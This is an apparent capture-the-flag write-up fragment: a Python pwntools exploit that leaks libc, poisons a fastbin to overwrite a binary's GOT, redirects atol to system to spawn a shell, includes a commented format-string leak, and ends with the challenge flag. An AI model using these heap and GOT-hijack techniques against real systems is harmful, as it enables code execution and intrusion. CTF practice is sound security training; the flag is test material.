 ```python
    libc.address = addr - 0x3be7b8 # remote
    log.success("libc_base: " +hex(libc.address))
    # gdb.attach(r, gdbscript=open('./ggg', 'r'))
    # arrange heap
    add_data(2, 0, "2"*0xb0*2, 'Yes')
    add_data(2, 0, "3"*0x58*2, 'Yes')
    add_data(2, 0, "4"*0x38*2, 'Yes')
    # overwrite fastbin->fd ( in size 0x40 )
    payload = convert(0x41)
    payload += convert(0x604042)
    payload += convert(0) * 6
    payload += convert(0x31)
    payload = payload.ljust(0x58*2, '0')
    add_data(2, 0x60-0x8, payload, 'Yes')
    # now fastbin (size=0x40) has fake chunk @ got
    # allocate the fake chunk
    # overwrite got
    payload = "6"*12 # libc_start_main
    payload += convert(0x400b26) # resolve fgets
    payload += convert(0x400b36) # resolve strlen
    payload += convert(libc.symbols['system']) # hijack atol
    #payload += convert(elf.plt['printf']) # use format string to leak libc info
    payload = payload.ljust(110, '0')
    add_data(3, 8, payload, 'No')
    
    # hijack atol, send "sh" to get shell
    r.sendlineafter("SEQ #:", "sh")
    log.success("get shell!: ")
    r.interactive()

    # for exploiting format string & leak libc info
    """
    payload = "%10$s.%p.%p.%p.%p.%p.%p.%p.%p.%p" + p64(elf.got['fgets'])
    r.sendlineafter("SEQ #:", payload)
    r.recv(1)
    print "fgets:", hex(u64(r.recv(6).ljust(8, '\x00')))
    payload = "%10$s.%p.%p.%p.%p.%p.%p.%p.%p.%p" + p64(elf.got['puts'])
    r.sendlineafter("Offset:", payload)
    r.recv(1)
    print "puts:", hex(u64(r.recv(6).ljust(8, '\x00')))
    """
```

flag: `All ints are not the same... A239... Some can be bad ints!`